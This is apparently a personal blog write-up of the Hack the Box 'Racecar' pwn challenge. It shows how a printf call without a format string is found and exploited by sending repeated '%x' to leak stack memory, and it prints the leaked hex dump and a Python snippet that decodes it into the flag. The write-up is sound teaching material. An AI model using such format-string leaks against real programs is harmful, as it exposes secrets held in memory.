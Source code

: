 ```yaml
---
staticPath: racecar
Title: "Hack the Box: Racecar"
Description: Using a format string vulnerability to leak stack data
Date: 2024-11-28
tags:
  - CTF
  - HackTheBox
---
```

Racecar is a pwn challenge from Hack the Box. Below is where the executable opens the flag file.

![[Pasted image 20241128135930.png]]

Below is where the flag gets read onto the stack. `ebp` is a register that points to the base of the current stack frame which than gets pushed to `eax`.
![[Pasted image 20241128141609.png]]

While trying different strings in the win function i noticed it was a format string vulnerability.
![[Pasted image 20241128140342.png]]

Here's where it calls printf without a format string.

![[Pasted image 20241128140501.png]]

Strings doesn't seem to work for some reason

![[Pasted image 20241128140714.png]]

Spamming `%x` to leak stack data yields the following.

```
56e2b1c0 170 56555dfa 2f 9 26 2 1 5655696c 56e2b1c0 56e2b340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f 10839500 f7f8a3fc 56558f8c ffc533f8 56556441 1 ffc534a4 ffc534ac 10839500 ffc53410 0 0 f7dcdf21 f7f8a000 f7f8a000 0 f7dcdf21 1 ffc534a4 ffc534ac ffc53434 1 ffc534a4 f7f8a000 f7fa870a ffc534a0 0 f7f8a000 0 0 c1004703 f2d5a113 0 0 0 40 f7fc0024 0 0 f7fa8819 56558f8c 1 56555790 0 565557c1 565563e1 1 ffc534a4 56556490 565564f0 f7fa8960 ffc5349c f7fc0940 1 ffc53d34 0 ffc53d46 ffc53d68 ffc53d9d ffc53dbc ffc53ddf ffc53e0c ffc53e21 ffc53e3d ffc53e5b ffc53e77 ffc53e9f ffc53ee1 ffc53f06 ffc53f27 ffc53f32 ffc53f54 ffc53f61 ffc53f6e ffc53f84 ffc53fa1 ffc53fb5 ffc53fd1 0 20 f7f97550 21 f7f97000 33 6f0 10 178bfbff 6 1000 11 64 3 56555034 4 20 5 9 7 f7f99000 8 0
```

Using some python to decode the hex I get the flag.

```python
for i in hexdump.split(" "):
    try:
       print(bytearray.fromhex(i).decode()[::-1],end="")
    except:
        pass 
```

```
/&liUVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}AdUV@ !3d4PUV **%**
```

# Final thoughts

Passing a user controlled buffer without a format string to printf is always a bad idea. Doing further research it looks like the reason `%s` doesn't work is because it reads off a number from the stack and then treats that as an address to read a string from. So there would have to be a valid address on the stack for `%s` to work. I found syracuse's [lecture notes](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) helpful for learning more about format string vulnerabilities.